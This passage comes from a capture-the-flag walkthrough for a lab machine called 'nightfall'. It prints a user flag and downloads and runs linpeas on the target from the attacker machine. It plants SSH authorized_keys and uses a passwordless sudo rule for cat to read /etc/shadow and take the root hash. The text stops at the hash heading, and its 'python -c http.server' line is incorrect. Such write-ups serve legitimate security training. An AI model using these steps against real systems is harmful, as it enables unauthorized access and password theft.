As the nightfall user I was able to navigate to their home directory and get the user flag

# user flag
```bash
97fb7140ca325ed96f67be3c9e30083d
```

I navigated to /dev/shm on the target machine and downloaded linpeas from my kali machine and ran it
to see if I could find out any more useful information about the target machine

# kali machine command for web server

This will start a http server on your kali (attack) machine

```bash
python -c http.server
```

# target machine wget command

```bash
wget http://10.0.2.242:8000/linpeas.sh 

chmod +x linpeas.sh 

./linpeas.sh 
```

After running linpeas, I found that it was ran as the user matt instead of the nightfall user, so I used the same
method of making a .ssh/authorized_keys file for the nightfall user and was able to ssh in to the target
machine as the nightfall user. I used the same authorized_keys file as I did with the matt user no need 
to make a new one

After being able to login with ssh as the nightfall user I ran linpeas again to see what I could find

Going through the output of linpeas I saw that I could run 'cat' command as root user without a password

```bash
User nightfall may run the following commands on nightfall:
    (root) NOPASSWD: /usr/bin/cat
```

Being able to run cat as root I read the /etc/shadow file and copied the hash for the root password
and stored it in a file called hash on my kali machine

# root password hash
